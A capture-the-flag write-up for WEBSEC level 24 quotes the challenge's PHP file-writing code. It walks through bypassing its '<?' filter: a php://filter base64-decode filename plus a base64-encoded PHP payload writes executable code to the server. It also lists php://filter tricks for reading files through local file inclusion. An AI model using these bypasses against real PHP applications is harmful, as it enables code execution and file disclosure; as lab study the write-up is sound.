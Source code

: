 # WEBSEC Level 24


### Challenge description

Secure text storage

### Initial analysis
`if (isset($_GET['p']) && isset($_GET['filename']) ) {
    $filename = $_GET['filename'];
    if ($_GET['p'] === "edit") {
        $p = "edit";
        if (isset($_POST['data'])) {
            $data = $_POST['data'];
            if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  # no interpretable code please.
                file_put_contents($_GET['filename'], $data);
                die ('<meta http-equiv="refresh" content="0; url=.">');
            }
        } elseif (file_exists($_GET['filename'])){
            $data = file_get_contents($_GET['filename']);
        }
    }
}
`

### Walk through
OVERVIEW: Payload: qwerty.php Index of ./uploads/vg4tgcn2q0ghcqr1r2vmlah1m0osm1u4/: qwerty.php, which on clicking gives an option to edit the contents

In Local File Inclusion,for Reading arbitrary files: php filters can be used index.php?file=php://filter/convert.base64-encode/resource=config.php OR index.php?file=php://filter/convert.base64-decode/resource=config.php

STEP 1: File Name= php://filter/convert.base64-decode/resource=flag.php

STEP 2: .encode('base64') 
OUTPUT: PD9waHAgc2hvd19zb3VyY2UoJy9mbGFnLnBocCcpOz8+

STEP 3: Payload in flag.php: PD9waHAgc2hvd19zb3VyY2UoJy9mbGFnLnBocCcpOz8+ Save changes 

STEP 4: Go to http://websec.fr/level24/uploads/nj2o7biqk0m290nq4bunuue3fsijii96/flag.php

STEP 5: Use Ctrl+Shift+I(Inspect tool) 


REFERENCE: https://github.com/qazbnm456/awesome-security-trivia/blob/master/Tricky-ways-to-exploit-PHP-Local-File-Inclusion.md



For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.
